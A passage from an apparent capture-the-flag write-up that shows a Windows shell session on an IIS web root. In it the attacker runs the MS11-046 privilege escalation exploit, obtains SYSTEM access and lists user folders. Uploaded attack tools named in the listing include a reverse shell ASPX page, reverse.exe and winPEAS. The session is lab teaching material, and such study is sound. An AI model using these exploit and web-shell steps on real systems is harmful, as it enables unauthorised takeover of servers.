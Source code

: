 ```
c:\inetpub\wwwroot>MS11-046(1).exe
MS11-046(1).exe
'MS11-046' is not recognized as an internal or external command,
operable program or batch file.

c:\inetpub\wwwroot>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 8620-71F1

 Directory of c:\inetpub\wwwroot

16/02/2021  06:49 ��    <DIR>          .
16/02/2021  06:49 ��    <DIR>          ..
18/03/2017  01:06 ��    <DIR>          aspnet_client
16/02/2021  04:46 ��             2.081 firstnmap.txt
17/03/2017  04:37 ��               689 iisstart.htm
16/02/2021  06:13 ��           112.815 MS11-046(1).exe
16/02/2021  06:49 ��           112.815 MS11-046.exe
16/02/2021  04:47 ��             1.172 nikto.txt
16/02/2021  05:25 ��             2.755 reverse.aspx
16/02/2021  05:03 ��            73.802 reverse.exe
17/03/2017  04:37 ��           184.946 welcome.png
16/02/2021  05:59 ��            35.761 winPEAS.bat
               9 File(s)        526.836 bytes
               3 Dir(s)  22.204.502.016 bytes free

c:\inetpub\wwwroot>MS11-046.exe
MS11-046.exe

c:\Windows\System32>whoami
whoami
nt authority\system

c:\Windows\System32>

```

Victory is mine:
```
c:\>cd Users
cd Users

c:\Users>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 8620-71F1

 Directory of c:\Users

18/03/2017  01:16 ��    <DIR>          .
18/03/2017  01:16 ��    <DIR>          ..
18/03/2017  01:16 ��    <DIR>          Administrator
17/03/2017  04:17 ��    <DIR>          babis
18/03/2017  01:06 ��    <DIR>          Classic .NET AppPool
14/07/2009  09:20 ��    <DIR>          Public
               0 File(s)              0 bytes
               6 Dir(s)  22.204.485.632 bytes free

c:\Users>cd babis
cd babis

c:\Users\babis>dir 
dir
```